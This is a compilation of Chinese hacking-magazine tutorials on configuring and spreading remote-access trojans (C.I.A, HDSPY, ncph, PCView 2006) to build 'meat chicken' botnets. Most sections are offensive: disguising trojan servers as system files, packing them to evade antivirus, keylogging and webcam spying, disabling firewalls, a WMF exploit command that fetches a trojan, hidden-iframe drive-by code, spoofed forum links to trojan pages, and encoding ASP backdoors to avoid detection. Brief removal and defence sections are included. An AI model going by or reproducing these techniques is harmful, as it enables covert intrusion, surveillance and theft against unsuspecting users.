笔者之所以爱用 Hxdef100 木马，就是因为它能实现类似 Rootkit 的功能，隐藏任意文件、进程、服务及端口等，从而无法查杀木马。在 C.I.A 中同样具有这个功能，而且操作起来极为方便。


图7

例如输入 %IN%，可自动隐藏木马进程名称；勾选“在 Windows Explorer 隐藏文件”可隐藏资源管理器中的指定文件；勾选注册表隐藏相关选项后，可隐藏木马启动键值。

### 7. 安装伪装，悄悄进驻电脑

为了让木马运行时更具迷惑性，可以设置木马在安装过程中弹出一些提示警告对话框。点击“安装过程”功能按钮，勾选“运行时显示信息框”项，在信息框列表中选择红色的错误提示图标。然后在“Title”和“Body”中设置错误对话框标题栏和内容，例如可设置为“程序运行错误”“无法找到 svcleon.dll 文件，程序无法运行！”，点击“测试”按钮，效果如图8所示。


如果没有公网 IP 地址的话，还是使用邮件通知比较可靠一些。点击左侧的“邮件通知”按钮，在打开的设置页中勾选“启用邮件通知”项，并输入接收肉鸡上线通知邮件的邮箱地址和邮件发送服务器。最好是使用 yahoo 的邮箱，在木马服务端设置程序中自带了几个邮件发送服务器，可以匿名发送通知邮件。点击“查看 Smtp 服务”按钮即可搜索服务，点击“测试邮件通知”按钮，可检测邮件服务器是否能正常发送邮件，如图11。

肉鸡离线时也记录用户的键盘输入了。点击“更改服务器图标”按钮，可以更改木马服务端程序的图标，比如改成图片或文本图标，使木马更具迷惑性。

一切设置完毕，我们超强功能的木马服务端就可以生成了。点击界面中的“创建服务器”按钮，输入服务端文件名及保存路径，并选择服务端程序文件后缀名。C.I.A 可以生成多种格式的木马程序，比如 .bat、.scr、.com、.pif 等，这里我们选择生成一个 .pif 文件，最后点击“生成服务端”按钮，就可以生成服务端程序了，如图13。


在生成服务端时，可以勾选“Compress With Mew”选项，这个选项是设置使用程序自带的压缩软件对服务端进行压缩加壳的。当然也可以取消该选项后，另外选择其它的加壳软件，如 ASpect、幻影等对服务端另外加壳压缩，这样一般的杀毒软件绝对是无法查杀这个木马服务端程序的！


这个网页可以是一个木马网页，也可以是一个广告宣传类的网页，当然也可以是 XX 网页，在运行者分心之时木马已经在后台悄悄地植入了！

### 8. 略有遗憾，反弹连接

国内比较流行的灰鸽子、Pcshare、上兴木马等，有许多木马都是通过动态域名反弹连接的，极大地方便了动态或内网 IP 的用户控制肉鸡。不过在 C.I.A 中略显得麻烦了一点，实在是美中不足。

点击打开“通知”功能页面，这里提供了多种肉鸡上线通知功能。点击“添加 CGI/PHP”，可以使用 C.I.A 网站提供的 PHP 页面收集即时上线的肉鸡 IP，当然用户也可以自己编写提交收集肉鸡上线的网页，如图9。如果用户申请了 ICQ 帐号的话，可以点击“添加 ICQ”按钮，使用 ICQ 上线通知的方法，不过国内使用这个聊天软件的用户实在少了。


如果用户有一个静态的公网 IP 地址，那就最简单不过了，直接勾选“启用 SIN 通知”项，再点击“取 IP”按钮，获得本机 IP 地址，输入一个监听连接的端口即可。


### 9. 生成超强的木马服务端

到现在为止木马服务端基本上设置完毕了，在生成服务端前还可以再进行一些选择，使木马服务端功能更强些。打开“杂项/图标”设置页面，在这里可以设置禁止在肉鸡上运行任务管理器、注册表、反弹连接、运行后删除自身等，如图12。


最重要的是可以勾选“记录脱线键盘”项，开启木马的离线键盘记录功能，并设置记录文件的最大体积，这样就可以在离线时记录用户键盘输入。

### 三、将肉鸡玩弄于指掌间

刚才我们生成了一个后缀为 .pif 的服务端程序，这个程序看起来只是一个 MSDOS 程序的快捷方式，普通用户一不小心就很容易点击运行它，如图14。


当生成的木马服务端在某台主机上运行之后，我们就可以体验 C.I.A 木马强大的远程控制功能了。

### 1. 连接服务端

木马提供了三种通知方式，因此可根据服务端的设置选择不同的连接方式。例如使用网页上线通知功能时，可以在客户端主界面点击“客户端设置”→“记录列表”，如图15。打开列表通知器对话框，点击“更新列表”按钮，就可以下载网站上的服务端连接列表了。在列表信息中会显示远程肉鸡 IP 地址、连接端口、操作系统、所在地区、是否安装有摄像头等。

## 牧马记

图15下方正文：介绍输入远程主机 IP 地址、连接端口与密码后点击“连接”进行远控；说明使用 SIN 公网静态 IP 反弹通知时，在客户端设置中填写 SIN 端口并启动监听，服务端上线后会在列表中提示（见图16）。

图17下方正文：可选择正连或反弹连接；可将远程主机 IP 保存到列表；在“客户端设置→地址簿”中管理并添加肉鸡列表。

中上部正文：若启用 ICQ 通知功能，登录 ICQ 后有肉鸡上线会收到 ICQ 消息，显示目标详细 IP 地址与连接端口等信息。

### 2. 无所不能的管理器

介绍“管理器”功能：在主界面点击“管理器”可进行文件管理、删除/上传/下载文件（见图18），并可进行注册表编辑（Registry Manager）、进程管理（Process Manager）、远程服务启停、窗口/消息/脚本操作等。

### 3. 远程捕捉，千里传音

介绍“视频/音频”功能：查看远程桌面、摄像头、键盘记录；“音频传播”可选择传播效果并开始传输，通过麦克风向远程端发送语音（见图19）。

### 4. 附加功能管理

介绍“管理”功能中的服务端程序管理、文件传送、代理服务器设置；示例为建立 Socket4 代理：进入“管理→Socket4 服务器”，输入端口并设置监听、启动 Socks（见图20）；还可远程下载并后台执行程序。

右下正文：在“联系”中可与服务端会话聊天；“恶作剧”可隐藏鼠标、自动打印、蜂鸣、修改屏幕参数等；“程序”可设置 IE、控制 MSN 或远程执行 CMD 命令。末段对该木马工具进行总结评价。

## 利用 VB 编写 QQ 强制聊天器的探究

左下新文章正文：作者提及参考“用 delphi/vb/asp+html+js/PHP 编写 QQ 强制聊天器”后改写为 VB 版本，说明调用方式差异（如使用 Navigate），并给出完整代码思路与改进说明。

```vb
Private Sub Command1_Click()
    Dim IE As New InternetExplorer
    IE.Visible = True
    IE.Navigate("http://wpa.qq.com/msgrd?v=1&Uin=" + Text1.Text + "&Site=www.ciker.org&Menu=yes")
End Sub
```

中下正文：讨论输入 QQ 号的校验逻辑，要求输入 5-9 位数字；若为空或长度不符则弹出提示框。

```vb
If Len(Text1.Text)=0 Or Len(Text1.Text)<5 Or Len(Text1.Text)>=10 Then
    MsgBox "请输入正确的QQ号码",16,"输入有误"
End If

Private Sub text1_KeyPress(KeyAscii As Integer)
    Select Case KeyAscii
        Case 8
        Case Is < Asc(0), Is > Asc(9)
            KeyAscii = 0
    End Select
End Sub
```

```vb
Option Explicit
Private Sub Command1_Click()
    If Len(Text1.Text)=0 Or Len(Text1.Text)<5 Or Len(Text1.Text)>=10 Then
        MsgBox "请输入正确的QQ号码",16,"输入有误"
    Else
        Dim IE As New InternetExplorer
        IE.Visible = True
        IE.Navigate("http://wpa.qq.com/msgrd?v=1&Uin=" + Text1.Text + "&Site=www.ciker.org&Menu=yes")
    End If
End Sub

Private Sub text1_KeyPress(KeyAscii As Integer)
    Select Case KeyAscii
        Case 8
        Case Is < Asc(0), Is > Asc(9)
            KeyAscii = 0
    End Select
End Sub
```

右下结尾：说明程序优化空间，读者可自行修改。

### 迷你版的黑洞——HDSPY

说起国产的木马黑洞，对于国内的木马玩家来说应该是无人不知、无人不晓了。虽然黑洞有很多不同的版本，可一直没有哪种迷你版的黑洞推出。最近在网上出现一款名为 HDSPY 的远程控制软件，该软件的操作界面、使用方法都和最新版的黑洞 2005 一模一样，如出一辙，只是在控制功能上进行了缩减。黑洞 2005 包括文件管理、进程管理、窗口管理、视频监控、屏幕录像、远程注册表管理等当前流行的远程管理功能；而 HDSPY 在此基础上保留了当前流行的反弹连接、屏幕监控、视频监控、命令广播等功能，并且操作起来也非常简单，堪称易上手，大家完全可以将其视为黑洞的迷你版本。据了解，这个木马程序确实由黑洞的作者陈经瑶所写。下面就为大家介绍这款迷你版的黑洞——HDSPY。

“FTP 反弹”。由于“FTP 反弹”这种反弹方式的前提是需要一个网络空间的支持，所以还是以“YEAH 域名反弹”为主为大家讲解。如果用户手中还没有现成的域名可以使用，那么单击下面的“查看”按钮，在弹出的“更新 IP 地址”界面中选择“YEAH.NET 更新 IP”面板，我们可以在这里免费注册网易公司的二级域名。输入你喜欢的域名和密码，单击“注册”按钮，在下面的窗口中会出现注册的情况，如图4。

### 一、配置服务端

首先从网上下载木马 HDSPY 的压缩包，然后解压并运行文件夹里的客户端程序 HDSPY.EXE，弹出木马 HDSPY 的操作界面，如图1。

从图中我们看到，HDSPY 的操作界面和黑洞的操作界面是很相像的。为了进行远程控制，我们首先来配置木马的服务端程序。点击“文件”菜单下的“配置服务端”命令，然后弹出 HDSPY 的“服务端程序配置”窗口，在配置窗口中包括了“安装选项”“启动选项”“功能选项”三个选项，每个选项的内容都针对不同的配置选项。在“安装选项”中可以对木马服务端的安装相关选项进行设置，如图2。

配置程序提供了三个服务端程序的安装路径，分别为远程系统的 Windows 文件夹、System 文件夹以及 Temp 文件夹，用户可以根据自己的意愿选择其中任意一个。在“程序安装名称”中设置服务端安装到远程系统后的程序名称，为了迷惑对方，最好取一个迷惑人的名称，例如 svchost.exe。如果用户选择了“安装完毕后删除安装文件”选项，那么当木马的服务端程序成功运行后将自动删除服务端程序本身的安装程序。在选择了“安装完毕后显示提示”选项后，在“提示内容”中输入需要提示的内容，当服务端程序运行后就会出现用户设置的提示内容。

再选择“启动选项”，这里用于设置木马启动的相关选项。HDSPY 木马根据不同的远程系统开启了不同的启动方式，对于 Windows 9X 的用户采用传统的利用注册表进行启动的方式，而对于 Windows 2000 及以后的系统均采用通过系统服务启动的方式进行启动。选中“Win98/Win Me 下写注册表开机自动运行”选项，然后在下面的“注册表启动名称”中输入木马服务端的启动名称；再选中“Win NT/2000/XP/2003 下以服务形式启动”，分别在“服务名称”“显示名称”“服务描述”中分别填入相关内容，如图3。

这里也应该填入容易迷惑人的内容。最后切换到“功能选项”，HDSPY 在服务端的连接方式上采用了当前流行的反弹连接。反弹连接为用户提供了两种方案，即“YEAH 域名反弹”和“FTP 反弹”。

关闭“更新 IP 地址”窗口再返回“功能选项”选项，在“获取 IP 地址 URL”中填入刚刚申请的域名，测试按钮测试域名是否正确，如图5。

如果正确的话，我们就可以用这个域名来配置服务端程序了。这样当进行反弹连接时，服务端程序将首先连接到这个用于客户端 IP 地址通知的域名，然后读取其中的 IP 地址和端口，最后服务端程序将连接读取到的客户端地址和端口，这样就完成了反弹连接的全过程。

客户端程序默认的图标不满意，可以点击“修改图标”按钮来更改服务端的图标。所有的设置都完成后，点击“生成”按钮就可生成一个配置好的服务端程序。

反弹技术解决了传统的远程控制软件不能访问安装有防火墙和控制局域网内部的远程计算机的难题。反弹端口型软件的原理是，客户端首先登录到用于 IP 地址中转的 FTP 服务器或域名，将客户端当前的 IP 地址写入到主页空间上面的一个文件中，并打开端口监听，等待服务端的连接；服务端定期用 FTP 协议读取这个文件的内容，当发现是客户端让自己开始连接时，就主动连接，如此就可完成连接工作。因此在互联网上可以访问到局域网里通过 NAT 代理上网的电脑，并且可以穿过防火墙。

与传统的远程控制软件相反，反弹端口型软件的服务端会主动连接客户端，客户端的监听端口一般为 80。这样，即使用户在命令提示符下使用 netstat -a 命令检查自己的端口，发现的也是类似“TCP UserIP:3015 ControllerIP:http ESTABLISHED”的情况，稍微疏忽一点你会以为是自己在浏览网页，而防火墙也会同样这么认为。于是，与一般的软件相反，反弹端口型软件的服务端主动连接客户端，这样就可以轻易地突破防火墙的限制。

### 二、远程控制

当网络连接成功后运行 HDSPY，首先点击“系统设置”菜单下的“连接端口与密码设置”命令，在弹出的窗口中设置用于服务端程序连接的监听端口和连接密码。然后点击“自动上线”按钮，在弹出的窗口中切换到“YEAH.NET 更新 IP”面板，填入你申请的域名和密码，点击“更新到空间”按钮，这样域名就会被转换为你当前的 IP 地址，远程的服务端程序就能自动进行反弹连接了。

当有远程计算机上线的时候，在客户端的“在线肉鸡列表”中可以清楚地反映出远程计算机的上线名称、IP 地址、实际地址、上线时间、服务端版本等信息，并且支持在线修改远程服务端电脑的上线名称。由于 HDSPY 的 IP 地址采用的是纯真的 IP 数据库，所以用户可以下载最新的 IP 数据库来对自带的数据库进行更新，从而保证 IP 地址的准确性。现在我们随便单击肉鸡列表中的一个 IP 地址后就可以开始对这台电脑进行远程控制了。

首先点击工具栏上的“自动抓屏”功能，我们可以通过它查看远程用户的屏幕操作，如图6。

“自动抓屏”功能可以连续不断地捕获对方屏幕，并且速度非常快。用户通过在抓屏窗口的标题栏点击右键，在弹出的菜单中选择“自动保存图片”命令，就能把捕获的图片自动保存到 HDSPY 文件夹中的 DataBase 目录里，并且还可以通过菜单中的“允许控制远程鼠标、键盘”命令对远程桌面进行实际的控制，就好像通过远程桌面进行操作一样，如图7。

HDSPY 同样为用户提供了资料保存管理的功能，通过“资料管理”菜单中的“本地屏幕文件管理”命令就可以对自动保存的图片进行打开、删除等管理操作，如图8。

“视频监控”是当前主流木马新添加的一项功能，HDSPY 里面也包含了该项功能。该功能可以对远程计算机中是否装有 USB 摄像头进行判断。如果有，无论摄像头是否开启，木马都可以成功将其打开并通过它来获取远程图像资料。HDSPY 的视频监控管理支持自定义传输图像的大小，并可直接将捕捉的图像保存为 MPEG 格式的视频文件以便用户查看，如图9。

如果用户需要查看保存的视频图像，可以点击“资料管理”菜单中的“本地视频文件管理”命令对视频文件进行管理。“字符终端”命令就是一个类似于 Telnet 的命令，和我们系统中自带的命令提示符的操作差不多，在此用户可以执行很多的 DOS 命令，如图10。

并且 HDSPY 还能对命令返回的信息进行保存。不过由于操作系统本身特性的原因，该命令在服务端为 Windows 9X 的情况下将无法正常操作。除了这些功能外，为了对肉鸡进行集中管理，HDSPY 同样也包含了“广播命令”的操作命令。广播命令就是一个摆脱控制平台，用户可以一次对选择的多台远程系统进行统一的命令操作。在操作面板的肉鸡列表中点击鼠标右键，在菜单中选择“广播命令”按钮，在弹出的“广播命令”窗口可以对列表中的主机进行刷新主机、远程卸载、下载文件等操作，如图11。

骗用户浏览某个特殊的网页，在用户浏览的时候，网页木马就会成功地激活系统漏洞，从而将木马程序“悄悄地”安装到用户系统中。为防止通过网页木马植入恶意程序，应及时安装系统安全补丁，并配合杀毒软件等安全工具进行防护。另有一种常见方式是“捆绑”，即将木马服务端与正常文件绑定，欺骗对方运行。文中介绍了通过 EXE 捆绑检测机、木马捆绑克星、FBD 等工具检查可疑可执行文件的方法。

如果检测到文件被捆绑了其他数据，会提示“文件 XXX 存在附加数据，是否将该数据另存为文件”。文中说明选择“是”后可将附加数据保存，便于后续分析。

通过“下载文件”命令可设置下载链接、运行参数和运行方式等，从而对内网多台主机批量执行下载与运行操作。

这样就可以一次批量对肉鸡进行服务端升级或统一执行某个下载程序。由于相关木马可通过一个端口传输全部数据，也便于进行端口映射操作；并且采用多线程，可同时对多台内网主机执行远程控制。

### 三、防范方法

前文已介绍木马 HDSPY 的基本功能。本节从防范角度说明其危害与传播方式。常见传播方式之一是网页木马，利用系统或程序漏洞诱导用户访问恶意页面并触发植入。

如果系统已被植入 HDSPY，可通过自动清除与手动清除两类方式处理。自动方式依赖杀毒软件和木马专杀工具；手动方式需要分析系统启动项与服务项，定位可疑文件后删除。文中建议先关闭系统“自动还原”，再通过 MSCONFIG 等工具查看启动项与服务，筛查并移除异常项。

接着切换到“服务”选项卡，勾选“隐藏所有 Microsoft 服务”后，可更容易识别第三方可疑服务并进行禁用或删除，如图15所示。

重新启动系统，如果用户去掉某个程序的启动项后它又自动加载，这个程序很可能是恶意程序。可先按前文方法删除启动项，再在“任务管理器”中结束对应进程，最后在系统中查找并删除该木马程序。文中判断该样本为 HDSPY，并指出其并未使用复杂隐藏技术，因此可手动清除。

### 利用 UBB 链接避杀马

现在种植网页木马越来越难，好站点不易入侵。作者提出一种“欺骗”方式：把做好的网页木马发布到论坛等高流量位置，通过用户自愿点击传播。

示例流程包括：

- 选择论坛（如 bbs.100kan.com）。
- 注册账号并隐藏 IP（提到 Hide IP Platfrom）。
- 发帖时用 UBB 写法包装链接，让显示文本看似是新浪等正常地址，实际跳转到木马页面。

```html
[URL=http://wwws.../icyfox.html]http://ent.sina.com.cn/f/m/harrypotter/index.shtml[/URL]
<IFRAME src="http://wwws.../icyfox.html" name="znu" width="0" height="0" frameborder="0"></IFRAME>
```

右侧文字说明：不少论坛支持 UBB，按此“漏洞式”写法可在多论坛生效，具有一定诱导点击作用，并称技术门槛不高。

### 管理型木马

### ncph 远程控制

作者称近期关注木马发布站点，发现 ncph 工作室发布的新型木马“ncph 远程控制”，并开始介绍其基本使用。

#### 一、服务端的配置

左下内容介绍服务端配置：解压后可见 Make.exe 与客户端程序 ncph3.0.exe，提到 guiservice 为服务端关键文件；通过运行 make 配置反弹地址，支持 IP 与域名反弹。

右下内容说明可通过动态域名服务（文中提到 3322.org）解决固定 IP 问题，并讨论默认反弹端口（如 54321）及端口修改、规避软件限制等设置思路。

菜鸟朋友对于如何使用木马来抓肉鸡都不是很清楚。那么，接下来，我就详细地给大家讲解一下如何利用网页木马来捕捉肉鸡。

## 二、利用 WMF 漏洞大量获取肉鸡

在 06 年第 2 期杂志上，花教兄已经详细介绍过该漏洞。可以说影响到了几乎所有的 Windows 系统，利用价值自然很大。我们先利用 ms0601 的 exp 来生成我们网页必需的 wmf 文件，执行命令为：

`ms0601.exe http://www.hackerxfiles.net/muma.exe`，如图 3。


假设木马的存放地址为：http://www.hackerxfiles.net/muma.exe，就会在当前目录下生成 exploit.wmf 这个文件。接着我们就可以写网页木马了，具体代码如下：

```html
<script type="text/jscript">
function telgkkg(){
  document.write("")
}
window.onload = telgkkg;
</script>
<iframe src=exploit.wmf width=0 height=0></iframe>
```

保存为 hack.htm，这里的 hack.jpg 可以是任何一幅图片文件。例如我们的个人空间是 www.xxx.net，将这三个文件同时上传到空间的 Web 根目录。当对方浏览 www.yizhigu.net/hack.htm 时，只要电脑未打上 ms0601 的补丁，就可以利用漏洞自动下载木马文件并运行。我们只要修改入侵的网站上的主页文件，挂上这样一段代码 `<iframe height=0 width=0 src="http://www.xxx.net/hack.htm"></iframe>`，就等着那些未打补丁的肉鸡源源不断地送上门吧！

其实隐藏网页木马也是一门学问，简单的方法就是利用御阁等木马修改文件的时间属性。如果要把网页木马真正隐藏好，建议大家参看一下第 2 期杂志上的“打造完美的网页木马”一文，相信你会学到不少东西。

## 三、远程控制的介绍

打开客户端程序，直接跳出了监听端口的设置，确定后就可以看到上线的肉鸡。选择好肉鸡并点击控制菜单下的“管理”，就可以进行远程控制了，如图 4。

这款木马的文件控制功能相当齐全，不仅具备了上传和下载等基本功能，在操作和管理上也和 radmin 非常相似，非常方便和直观。在使用木马的过程中，我发现很多木马的文件搜索功能如同花瓶，完全不能使用，可是这款木马的搜索功能却非常方便。只要在磁盘或者目录下查找需要的文件，就能批量下载了。如果是网站服务器，就可以搜索 `*.asp` 来下载它的网站文件；当然，也可以搜索 `*.mp3` 来搜索肉鸡上的音频文件，还是根据自身需求吧，如图 5。


下载的速度非常快，可能是因为利用了链路逆向技术吧。同时管理项目也是相当齐全，很多控制功能都独具一格。“用户”功能就如同执行 `net user` 命令，可以显示当前电脑的用户名；“共享”是用来查看肉鸡的共享文件信息，如果停止了 server 这个服务，就不存在默认共享了；“进程”可以查看和关闭远程肉鸡的进程信息，同时还可以查看进程加载的模块信息，这也是许多木马所没有的功能吧，如图 6。

“注册表”是用来连接查看远程注册表功能，只能读取却不能操作，不能不说是一点遗憾；“服务管理”想必也不用多做介绍吧，也是只能读不可写。比较有意思的是“软件”和“硬件”这两项功能，能完整显示远程电脑的软件安装信息和硬件设备管理器，为我们远程控制提供了相当有利的情报。根据软件信息可以显示出肉鸡的杀毒软件，以此猜测其安装情况；根据硬件信息可加固肉鸡。可见硬件读取操作对木马升级和控制也提供了一个工具吧。至于“桌面”功能也没有完全完善，毕竟这只是一个测试版本的木马，相信其正式版本会弥补测试版本的不足，同时也会包括键盘控制、开启代理、查看密码、屏幕控制、独立 shell、进一步无进程、无端口、无服务，全面免杀。可以说没有远程 shell 的确在远程控制上会有许多不便，但是这款木马作为一款管理型远程控制软件还算是实至名归，特别是新版本的开发将会带来更多更全面的功能，大家就翘首以待吧。

## 四、服务端的清除和简单防范网页木马

俗话说，知己知彼，才能百战不殆。ncph 远程控制没有加入远程卸载服务端的功能，那么只有自己动手了。大家注意到木马目录下的 guiservice 这个程序吧，实际上生成后的服务端就是这个程序的衍生，唯一改变的是在 guiservice 中加入自定义的反弹地址和端口。服务端运行后会自动删除，并在 windows\system32 下产生一个 winguis.exe 的程序，这个程序就是用来管理远程控制的。它是通过服务来加载自身，以便在重启后自动运行，写入的系统服务为 GUIservice，并且服务端没有利用进程插入技术，所以会在任务管理器下清楚地显示出来，如图 7。


我们只需要在任务管理器下关闭该进程，然后进入 windows\system32 下删除 winguis.exe 的木马程序；最后在注册表里搜索 guiservice 和 winguis 并删除掉全部键值，就可以完全清理掉这个木马了，如图 8。

其实清理这个木马还有个很简单的方法，就是利用 `-u` 这个命令终止服务。我们在 cmd 下切换到 system32 下执行 `winguis -u`，也可以正常清除木马，如图 9。这款木马有些像后门，还会在 C 盘下生成一个 log.txt，记录木马的安装和卸载信息，如图 10。

相信看了本文后，各位读者对于木马的使用又多了一份了解了吧。这里也提醒各位读者：请及时为自己的系统打上各种补丁，千万别忘了 IE，或者更简单地，使用 Opera 这样的非 IE 内核浏览工具，来避免网页木马的侵害。最后祝大家在 X 档案的帮助下，肉鸡越来越多。切记不要利用木马来搞非法破坏，否则可是要后悔不已的！

> （本文涉及到的工具 Windows 按钮突破专家、ncph 远程控制、ms0601 溢出工具，光盘有收录）


说起国产木马的发展历程，从最早的冰河、网络精灵，到后来的黑洞、网络神偷，再到现如今的灰鸽子、PcShare 等，国产木马已经在风风雨雨、是是非非中度过了多年。其间，不断有老的木马退出我们的视线，又有很多新的木马出现在我们的眼中。最近，国内就相继推出了多款全新的木马，本文我们就来看看其中的一款——“PCView 2006”。

## 一、配置木马服务端

虽然 PCView 是刚刚推出的木马程序，可经过作者不断完善，已经推出了多个版本，最新版本为 PCView 2006。我们可以从 PCView 的官方网站下载最新版本的 PCView 2006。下载完成后，解压即可开始使用。首先来看一下解压后文件夹中的文件，发现 PCView 并不像其他的国产木马程序，将服务端程序的配置功能集中到客户端程序之中，而是专门通过一个程序来配置木马服务端。双击运行“PCView 2006 服务端生成器”，在展开的界面中进行配置，如图 1。


从图 1 中我们可以看到，服务端生成器分为“域名上线设置”和“FTP 上线设置”两个标签。在“域名上线设置”标签中就是用于服务端程序配置的。PCView 2006 服务端程序的配置十分简单，我们只需要设置反弹连接所使用的域名、反弹连接的端口，以及服务端注释就可以了。服务端的连接除了使用解析域名外，还可以使用固定 IP 地址进行连接。由于我们是在内网进行测试，所以反弹连接的域名和端口就分别设置为 192.168.0.6 和 4466。设置完成后，点击“生成服务端”按钮即可。


“FTP 上线设置”则是用于设置 IP 地址通知网页这种连接类型的服务端程序。在配置窗口，用户需要对网页文件所在的服务端地址、上传端口、用户名、密码等信息进行设置，设置完成后同样点击“生成服务端”按钮就能生成相应的服务端程序，如图 2。

## 二、远程控制操作

服务器程序配置完成以后，我们首先将服务器程序安装到进行测试的计算机上，然后运行客户端程序 PCView 2006，打开程序的主窗口，如图 3。


如果用户是通过域名或网页进行连接的话，首先需要在左界面中的“刷新 IP”项中将本地计算机的 IP 地址更新到域名和网页中。由于 PCView 2006 采用的是反弹性连接方式，所以需要在本地打开一个监听端口。点击“监听设置”后面的小三角，在弹出的窗口中设置用于连接的端口，然后依次点击“设定”和“监听”两个按钮，从主界面的提示栏中就可以看到端口打开的信息，如图 4。


监听端口打开后，进行本机测试的计算机很快就自动连接到了本机，同时还弹出一个类似于 MSN 上线的提示框。现在我们就可以进行远程操作了。从上线列表中可查看到关于远程计算机的一些基本信息，比如 IP 地址、网络地址、计算机名称等等，如图 5。


如果用户觉得这些信息还不够的话，可以点击工具栏中的“信息窗口”按钮，在弹出的窗口中将需要查看的信息选项添加到列表显示信息中，如图 6。这样用户就可以查看到更多关于远程计算机的信息了。

PCView 在传统的防火墙穿透技术上加以改良，使得其可以正常穿透大部分防火墙，真正达到了既保护网络又管理网络的目的。


现在开始远程控制操作，在列表中选择一台上线的远程计算机，然后点击鼠标右键，就可以查看到所有的远程控制命令。PCView 2006 将远程控制命令进行了基本分类，包括管理命令、监控命令、特殊命令、系统管理命令等等，如图 7。


我们来看管理命令部分，它包含了最基本的文件管理、进程管理、注册表管理、服务管理等等。点击“文件管理”命令，就可以在弹出的“文件管理”窗口进行操作。PCView 2006 采用了一种类似于资源管理器的文件查看窗口，在“目录”列表下选择需要查看的目录，进而选择需要查看的文件夹和文件，用户可以在此进行文件的上传、下载、删除、运行等管理操作，如图 8。


当用户进行文件上传或下载时，可以通过左窗口中的“传输查看”命令来查看正在进行传输的文件情况，包括文件大小、压缩比、传输速度等等，如图 9。


PCView 2006 同时还支持文件的断点续传。点击“进程管理”命令，查看远程计算机的进程情况。PCView 2006 的进程管理除了常见的进程结束命令外，还可以查看到关于这个进程的内存信息、内存路径信息，这样就更加方便用户管理，如图 10。


“服务管理”命令并不是对远程服务端进行更改的命令，而是对 NT 内核系统的服务选项进行管理的功能。在这儿我们可以对远程系统的服务进行查看，并且通过右键可以实现启动服务、删除服务、停止服务的操作。此外，用户还可以创建新的服务项，这样就可以在木马程序被杀毒软件查杀后，立刻启动其他暂时不被查杀的木马以继续控制远程计算机，如图 11。


点击“安装”命令，会弹出一个窗口要求输入新的服务名称，确定后还需要分别输入服务描述，以及文件路径等信息，这样一个新的系统服务就创建完成了。“注册表管理”命令当然就是用于管理注册表的了，用户通过客户端的右键命令可以新建、删除或者重命名注册表的各个键值等注册表操作命令，它的操作和“文件管理”命令差不多，这里就不再赘述，如图 12。


“命令提示符”模拟了一个类似命令提示符的功能，这样我们就可以执行很多终端命令，如 netstat、ping、FTP 等。不过由于系统本身特性所造成的原因，所以该命令可能在服务端为 Win98/Me 的情况下无法实现，因此使用前最好通过主窗口列表中的“系统类型”选项查看一下远程计算机的操作系统类型，如图 13。


通过“屏幕监控”命令可以对远程桌面进行查看。当通过提示栏确认远程计算机已经连接成功后，选择“开启”选项，就可以开启远程桌面的监控。可惜的是，只能进行桌面监控，而无法进行鼠标、键盘控制。另外，将“保存图像到目录”选项选中，在后面的输入框输入一个目录，就可以将截取的图像保存到我们指定的目录，如图 14。


通过“声音监控”命令，可以将通过远程麦克风截取的声音播放出来。同样在连接成功以后，在“声音监控”窗口中设置“采样频率”和“设备”选项，再选择“开启”选项，如图 15。这样我们就可以听到监控的远程计算机发出的声音，比如播放的 MP3、用户聊天等。“摄像头监控”命令可以监控远程计算机的摄像头，由于我没有摄像头，这里就不再进行演示了。


接着我们再来看看 PCView 2006 木马的特殊功能。通过“HTTP 代理”命令，在弹出的窗口中点击“开启”按钮，就可以在远程计算机上打开 HTTP 代理，从而使这台远程计算机成为一台代理服务器，如图 16。


而“下载并执行文件”命令就是一个下载者功能，在弹出的窗口中设置文件的下载链接，以及程序下载后的文件名称，点击“下载并执行”按钮，这样就可以对远程计算机的服务端程序进行升级或下载执行某个指定程序，如图 17。另外，在“系统管理”菜单中还包括“关闭防火墙和杀毒软件”和“清除 CMOS 数据”两个特殊功能。

“清除 CMOS 数据”这个功能是一个非常危险的命令，用户无论是在使用还是测试过程中都要谨慎；而通过“关闭防火墙和杀毒软件”命令，可以关闭掉 XP、2003 系统自带的防火墙功能。另外，通过“关闭额外的杀毒软件和防火墙”命令可以关闭远程计算机中其他的杀毒软件和防火墙，如图 18。


其实，我们通过“进程管理”命令也可以关闭大多数杀毒软件和防火墙的进程。但是由于有的杀毒软件和防火墙软件同时拥有多个进程，各个进程之间相互监控，所以通过“进程管理”命令也很难将这些杀毒软件和防火墙关闭。

至此，PCView 2006 木马的主要功能就介绍完了。除了上面这些功能外，PCView 2006 木马还大量使用了现在流行的各种技术，除了消息反弹连接、线程插入技术外，还加入了多线程技术，这样我们就可以同时对多台远程计算机进行控制操作，也可以对一台远程计算机同时执行多个控制命令。


## 三、总结

“窗口查看”命令，在弹出的窗口可以查看到正在使用的命令，如图 19。点击右键，可以通过“设置焦点”和“关闭窗口”命令来激活或关闭所选命令，这样就可以做到“呼之即来，随时使用”。PCView 2006 自带 SQL 数据库管理工具，可以执行 SQL 数据库命令、CMD 命令，导入数据库脚本，让你不必再为你远在千里之外的数据库工作操心。

总的来说，PCView 2006 作为一款全新的木马，虽然在某些地方还有很多不足之处，但毕竟还是非常不错的，有兴趣的朋友就赶快试试吧。如果有什么问题的话，欢迎大家到《黑客 X 档案》论坛和我们一起讨论学习。（本文涉及到的工具 PCView 2006，光盘有收录）


相信大家一定都有过这样的经历吧！好不容易拿到网站的上传权限可以上传后门了，可是上传了后门访问，满怀期待等到的却是“找不到网页，您要查看的网页可能已被删除、名称已被更改，或者暂时不可用”。

其实这就是我们上传的后门被服务器上的杀毒软件给“咔嚓”了，那怎么办呢？下面我们就来讲讲对策。

杀毒软件的基本原理大家都知道吧，就是把一个程序选中一段有代表性的语句定义成病毒特征代码（后面简称特征码）。其实免杀，就是让杀毒软件找不到这段特征码。关于如何查找和修改病毒特征码，在以前的文章中已经有介绍了。不过有的小菜会认为修改特征码很费力，而且还有一个很严重的问题，就是各大杀毒软件所定义的特征码不尽相同，做到了此杀毒软件的免杀，又被彼杀毒软件给杀了。我们总不能把所有杀毒软件定义的特征码都改了吧？难道就不能有什么方法简单易行地实现对多杀软的免杀呢？答案是肯定的，这就是我们今天所讲的 screnc。


主程序就是那个 screnc.exe，不是直接运行的。打开 CMD（开始→运行→CMD），进入程序所在的根目录，我们的 ASP 后门要和 screnc.exe 在同一个目录下。

在同一个目录下，假设 screnc.exe 所在位置为 `E:\tool\screnc.exe`，我们先进入 `E:\tool`，在 CMD 下输入命令 `cd E:\tool`，回车，如图 2。


然后在 `E:\tool` 下键入 `screnc.exe houmen.asp houmen2.asp`，这句话的意思是加密 `houmen.asp`，加密后的文件保存为 `houmen2.asp`。成功之后，如图 3。


